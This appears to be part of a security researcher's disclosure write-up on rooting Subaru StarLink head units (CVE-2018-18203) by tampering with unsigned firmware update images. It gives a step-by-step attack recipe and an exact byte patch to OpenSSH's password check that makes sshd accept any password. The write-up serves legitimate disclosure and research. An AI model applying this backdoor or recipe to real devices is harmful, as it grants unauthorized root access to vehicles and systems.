* Internal document — Found an older Microsoft Office document with what looks like company internal details (serial numbers) on various components. Mentions a number of cars in the Subaru lineup then a codename for some sort of new Subaru North American vehicle. This is from 2016, so I'd guess that vehicle has already been announced by now. On the bright side, it didn't look very sensitive.

Overall, there was lots of stuff, but no obvious code execution mechanisms found in the brief search. I was hoping for a script that loaded code from the USB drives, some form of debugging mode with peek/poke, or anything useful. There are enough files here where I could probably keep exploring and find an avenue, but let's revisit the serial port for now.

## Back to QNXCNDFS

Most of the QNXCNDFS structure is understood. Nowhere during the reverse engineering process did I find any signatures, signature verification code, or strings indicating some form of signature check taking place. However, being able to prove that there *isn't* a signature check is difficult through reverse engineering alone. The easiest way to prove this would be to generate our own custom QNXCNDFS image, overwrite one in the update file, and try to flash it down. It it works, great; if not, we'll probably get a new error message that will point us to another signature check we missed.

As we understand the file structure, we could work backwards and create a tool to compress a QNX6 filesystem image into a QNXCNDFS file. But we also know that the cndfs application looks to support creating QNXCNDFS files, so if we already had code-execution, we could just use that tool to create our images and skip the time-consuming step of trying to generate valid QNXCNDFS files from scratch.

Both are viable options, but let's look for more flaws first.

### The Shadow File

Here's the shadow file with the hashes replaced.

```console
root:@S@aaaaa@56c26c380d39ce15:1042473811:0:0
logger:@S@bbbbb@607cb4704d35c71b:1420070987:0:0
certifier:@S@ccccc@e0a3f6794d650876:1420137227:0:0
```

Three passwords I failed to crack.

Here's passwd:

```console
root:x:0:0:Superuser:/:/bin/sh
daemon::1:2:daemon:/:
dm::2:8:dwnmgr:/:
```

Important notes about passwd here, from the [QNX manual](http://www.qnx.com/developers/docs/6.5.0SP1.update/com.qnx.doc.neutrino_utilities/p/passwd.html):

```
If the has_passwd field contains an x character, a password has been defined for this user. If no character is present, no password has been defined.
```

and

```
The initial_command field contains the initial command to run after the user has successfully logged in. This command and any arguments it takes must be separated by tab or space characters. As the command is spawned directly (not run by a shell), no shell expansions is performed. There is no mechanism for specifying command-line arguments that contain space or tab characters themselves. (Quoting isn't supported.)
If no initial_command is specified, /bin/sh is used.
```

So, we can potentially login over serial to daemon and dm. They have no password defined, and no initial command specified, which implies /bin/sh will be the command.

Does this work?

### Non-privileged Code Execution

Absolutely.

```console
$ ls
sh: ls: cannot execute - No such file or directory
$ echo $PATH
:/proc/boot:/bin:/usr/sbin:/fs/core1/core1/bin:/fs/sys1/sys1/bin:/fs/core/hmi:/fs/second1/second1/bin:/fs/third1/third1/bin:/sbin:/fs/system/bin
$ cd /fs/system/bin
$ echo *
HBFileUpload NmeCmdLine antiReadDisturbService awk bt_test cat cdqnx6fs changeIOC chkdosfs chkfsys chkqnx6fs chmod cp cypress_ctrl date dbus-send dbustracemonitor dd devb-umass devc-serusb display_image emmcvuc fdisk fs-cifs fsysinfo gles1-gears grep hd hmiHardControlReceiver hogs inetd inject iocupdate isodigest ls mediaOneTestCLI mkdir mkdosfs mkqnx6fs mtouch_inject mv netstat pcm_logger pfctl pidin ping pppd qdbc rm screenshot showmem slog2info softwareUpdate sshd sync telematicsService telnetd testTimeshift top tracelogger ulink_ctrl use watchdog-server which
$ ./cdqnx6fs
sh: ./cdqnx6fs: cannot execute - Permission denied
```

Unfortunately, nearly every binary is locked down to the root user. We can only navigate around via `cd` and dump directory contents with `echo *`.

The good news is that when the system mounts a FAT32 USB drive, it marks every binary as 777. Thus, glob every binary we've extracted thus far into a folder on a flash drive, insert it into the head unit USB adapter, connect to dm or daemon via serial, set your $PATH to include the aforementioned folder, and then type ls.

```console
$ ls -las /
total 201952
       1 lrwxrwxrwx   1 root      root             28 Jan 01 00:02 HBpersistence -> /fs/data/app/usr/share/trace
       1 drwxr-xr-x   2 root      root             30 May 25  2017 bin
       1 drwxr-xr-x   2 root      root             10 May 25  2017 dev
       1 drwxr-xr-x   2 root      root             20 May 25  2017 etc
       0 dr-xr-xr-x   2 root      root              0 Jan 01 00:02 fs
       1 dr-xr-x---   2 root      73               10 Dec 31  1969 home
       0 drwxrwxr-x   8 root      root              0 Jan 01 00:01 pps
  201944 dr-xr-xr-x   2 root      root      103395328 Jan 01 00:02 proc
       1 dr-xr-x---   2 root      upd              10 Dec 31  1969 sbin
       0 dr-xr-xr-x   2 root      root              0 Jan 01 00:02 srv
       1 lrwxrwxrwx   1 root      root             10 May 25  2017 tmp -> /dev/shmem
       1 drwxr-xr-x   2 root      root             10 May 25  2017 usr
```

Local code execution via serial. We can now execute every binary that doesn't require any sort of enhanced privileges. cdqnx6fs is one of them.

```console
$ ./cdqnx6fs ---help
cdqnx6fs - condense / restore Power-Safe (QNX6) file-systems

cdqnx6fs -c [(general-option | condense-option)...] src dst
cdqnx6fs -r [(general-option | restore-option)...] src dst
```

I wish I could provide some sage advice on how I solved this but it just comes down to experience. Do it enough and patterns will emerge.

### Image Creation

Assuming cdqnx6fs works, we can now extract the system.dat (using the `-r` flag), mount the extracted QNX6 image in a system that supports read/write operations, modify the image in some way, flash it back down, and see if it works. If the image truly isn't signed or the verification code is broken, the flashing step will succeed.

To modify the QNX6 images, we can't use the Linux driver as that only supports reading. We'll have to use an [official QNX 6 test VM](http://www.qnx.com/download/feature.html?programid=20725) for full QNX6 filesystem IO.

Extract the image, mount the image, add a test file in a known directory, unmount the image, transfer it back to the Harman head unit, repackage it using the correct encryption key, replace the file into the update package, flash it down, pray.

The install succeeds and we can find the new file via serial. The system effectively runs unsigned code and the only "protection" against this is what looks to be an easily reverse engineered cipher.

### Root Escalation

We can now modify system files, but the next question is, what files should we modify for root code execution? Keep in mind that the shadow file and various SSH keys are in the IFS binary blobs. So, while the best root method may be replacing the root password, that would involve more reverse engineering. We don't know the IFS file structure, and at this point, diving into yet another binary blob black box format doesn't sound enjoyable. (Someone else do it.) There are a large number of files not in the IFS images, but none of them are shell scripts or any sort of obvious startup script we can modify. Our options are mostly all system binaries.

There are an infinite number of ways to gain (network) code execution by replacing binaries, but I'll stick with what I thought of first. Let's backdoor SSH to always log us in even if the password is incorrect.

#### Backdooring SSH

You'd think this part would just be a web search away. Unfortunately, searching for "backdooring ssh" leads to some pretty useless parts of the Internet.

Pull the source for the version of OpenSSH running on the system — it's 5.9 (check strings and you'll see `OpenSSH_5.9 QNX_Secure_Shell-20120127`).

Browse around, try to understand the authentication process, and target a location for a patch.

There were a few locations that looked good, but I started here in auth2-passwd.c:

Here's `userauth_passwd`:

```C
static int
userauth_passwd(Authctxt *authctxt)
{
	char *password, *newpass;
	int authenticated = 0;
	int change;
	u_int len, newlen;

	change = packet_get_char();
	password = packet_get_string(&len);
	if (change) {
		/* discard new password from packet */
		newpass = packet_get_string(&newlen);
		memset(newpass, 0, newlen);
		xfree(newpass);
	}
	packet_check_eom();

	if (change)
		logit("password change not supported");
	else if (PRIVSEP(auth_password(authctxt, password)) == 1)
		authenticated = 1;
	memset(password, 0, len);
	xfree(password);
	return authenticated;
}
```

The patch should be straight forward. Instead of returning `authenticated = 0` on failure, always return `authenticated = 1`. Find this location in the binary by matching strings:

```asm
.text:080527E6
.text:080527E6 loc_80527E6                             ; CODE XREF: sub_805279C+38↑j
.text:080527E6                 CBZ             R6, loc_80527F2
.text:080527E8                 LDR             R0, =aPasswordChange_0 ; "password change not supported"
.text:080527EA                 MOVS            R5, #0
.text:080527EC                 BL              sub_806CC94
.text:080527F0                 B               loc_805280E
.text:080527F2 ; ---------------------------------------------------------------------------
.text:080527F2
.text:080527F2 loc_80527F2                             ; CODE XREF: sub_805279C:loc_80527E6↑j
.text:080527F2                 LDR             R3, =dword_808A758
.text:080527F4                 MOV             R0, R5
.text:080527F6                 MOV             R1, R4
.text:080527F8                 LDR             R3, [R3]
.text:080527FA                 CBZ             R3, loc_8052802
.text:080527FC                 BL              sub_8056A18
.text:08052800                 B               loc_8052806
.text:08052802 ; ---------------------------------------------------------------------------
.text:08052802
.text:08052802 loc_8052802                             ; CODE XREF: sub_805279C+5E↑j
.text:08052802                 BL              sub_8050778
.text:08052806
.text:08052806 loc_8052806                             ; CODE XREF: sub_805279C+64↑j
.text:08052806                 SUBS            R3, R0, #1
.text:08052808                 NEGS            R0, R3
.text:0805280A                 ADCS            R0, R3
.text:0805280C                 MOV             R5, R0
.text:0805280E
.text:0805280E loc_805280E                             ; CODE XREF: sub_805279C+54↑j
.text:0805280E                 MOVS            R1, #0  ; c
.text:08052810                 LDR             R2, [SP,#0x28+var_24] ; n
.text:08052812                 MOV             R0, R4  ; s
.text:08052814                 BLX             memset
.text:08052818                 MOV             R0, R4
.text:0805281A                 BL              sub_8072DB0
.text:0805281E                 LDR             R3, =__stack_chk_guard
.text:08052820                 LDR             R2, [SP,#0x28+var_1C]
.text:08052822                 MOV             R0, R5
.text:08052824                 LDR             R3, [R3]
.text:08052826                 CMP             R2, R3
.text:08052828                 BEQ             loc_805282E
.text:0805282A                 BLX             __stack_chk_fail
.text:0805282E ; ---------------------------------------------------------------------------
.text:0805282E
.text:0805282E loc_805282E                             ; CODE XREF: sub_805279C+8C↑j
.text:0805282E                 ADD             SP, SP, #0x14
.text:08052830                 POP             {R4-R7,PC}
```

R0 is our return value in ARM, and will contain the value of authenticated on subroutine exit. The write to R0 is:

```
.text:08052822 28 46                       MOV             R0, R5
```

Change this to `return authenticated = 1;`, which is going to be this in ASM:

```
.text:08052822 01 20                       MOVS            R0, #1
```

Thus, `28 46` -> `01 20`. Not the best backdoor possible, but it works.

```console
$ ssh root@192.168.0.1

****************************** SUBARU *******************************
Warning - You are knowingly accessing a secured system. That means
you are liable for any mischeif you do.
*********************************************************************

root@192.168.0.1's password:
# uname -a
QNX localhost 6.6.0 2016/09/07-09:25:33CDT i.MX6S_Subaru_Gen3_ED2_Board armle
# cat /etc/shadow
root:@S@aaaaaa@56c26c380d39ce15:1042473811:0:0
logger:@S@bbbbbb@607cb4704d35c71b:1420070987:0:0
certifier:@S@cccccc@e0a3f6794d650876:1420137227:0:0
# pidin -F "%n %U %V %W %X %Y %Z" | grep sh
usr/sbin/sshd           0          0          0          0          0          0
usr/sbin/sshd           0          0          0          0          0          0
bin/sh           0          0          0          0          0          0
```

## Putting it All Together

To root any 2017+ Subaru StarLink head unit, an attacker needs the following to generate valid update images:

1. A Subaru head unit with serial and USB port access.
2. The encryption keys for the update files.
3. An official update. These seem to be available for most platforms in many different ways. Without the official update, the ISO signature check will fail and the install will not continue to the stage where the QNXCNDFS files are written.
4. Physical access to the vehicles USB ports.

Technically, the head unit isn't needed, but to replace it you'd need code to generate QNXCNDFS images from QNX6 filesystem images.

After we have those pieces:

1. Use the serial and USB ports to gain local code execution on the system.
2. Decondense an official software update QNXCNDFS image.
3. Use the QNX Platform VM Image to modify the QNX6 filesystem. Inject some form of backdoor — sshd in this case.
4. Re-package the update file via cndfs.
5. Replace the modified QNXCNDFS file in the official system update.
6. Install.

While this may seem like an execessive number of steps to gain code execution, keep in mind an attacker would only need to do this once and then could conceivably generate valid updates for other platforms.

Valid update images were initially challenging to find, but it appears that Subaru is now releasing these via a map-update application that can be used if you have a valid VIN.

I will not be releasing modified update files and I wouldn't recommend doing this to your own car.

### CVE-2018-18203

A vulnerability in the update mechanism of Subaru StarLink head units 2017, 2018, and 2019 may give an attacker (with physical access to the vehicle's USB ports) the ability to rewrite the firmware of the head unit. This vulnerability is due to bugs in the signature checking implementation used when verifying specific update files. An attacker could potentially install persistent malicious head unit firmware and execute arbitrary code as the root user.

### Next Steps

After all of this, I still know very little about the Harman head unit system, but I do know how to root them. Reverse engineering QNXCNDFS wasn't required, but was an interesting avenue to explore and may help other researchers in the future. The next step is far less tedious than reversing filesystem containers — explore the system, see what hidden functionality exists (Andromeda is probably a goldmine, map out dbus), setup a cross-compiler, and so on.



## Notes from Subaru and Harman

Both Subaru and Harman wanted to relay messages about the flaw in this write-up. I have paraphrased them below. If you have questions, please contact either Subaru or Harman directly.

### Note from Subaru

Subaru will have updates for head units affected by this flaw in the coming weeks.

### Note from Harman

The firmware update process attempted to verify the authenticity of the QNXCNDFS dat files. The procedure in question had a bug in it that caused unsigned images to verify as "valid", which allowed for unsigned code installation.

## Conclusion

I started this in my free time in July of 2018 and finished early the next month. Overall, the process took less than 100 hours. The embargo was originally scheduled for 90 days, which would have been November 5th, 2018. Subaru requested more time before the original embargo ended and I agreed to extend it until the end of November.

I was unable to find any sort of responsible/coordinated disclosure form on Harman or Subaru's websites. That was disappointing as Harman seems to have plenty of sales pages detailing their security programs and systems. I did managed to find a Harman security engineer on LinkedIn who did an excellent job handling the incident. Thank you!

Harman and Subaru should not assume that the biggest flaw is releasing update files. Letting customers update their own head units is wonderful, and it lets security researchers find flaws and report them. Giving the updates exclusively to dealers prevents the good guys from finding bugs. Nation states and organized crime would certainly not have trouble gaining access to firmware and software updates.

~~If anyone affiliated with education or some other useful endeavor would like the head unit, I'll be happy to ship it assuming you pay the shipping costs and agree to never install this in a vehicle.~~

Thank you to those I worked with at Harman, especially Josiah Bruner, and to Subaru for making a great car.

Questions, comments, complaints? <github.scott@gmail.com>
